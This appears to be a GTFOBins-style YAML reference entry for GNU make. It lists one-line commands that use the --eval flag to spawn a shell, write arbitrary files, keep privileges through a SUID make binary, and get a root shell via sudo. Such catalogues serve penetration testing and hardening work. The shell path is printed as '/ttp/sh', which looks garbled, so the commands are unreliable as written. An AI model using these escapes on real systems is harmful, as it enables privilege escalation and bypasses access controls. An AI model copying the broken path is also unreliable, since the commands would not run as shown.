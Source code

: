 ```yaml
---
description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  shell:
    - code: |
        COMMAND='/ttp/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .
  suid:
    - code: |
        COMMAND='/ttp/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo:
    - code: |
        COMMAND='/ttp/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

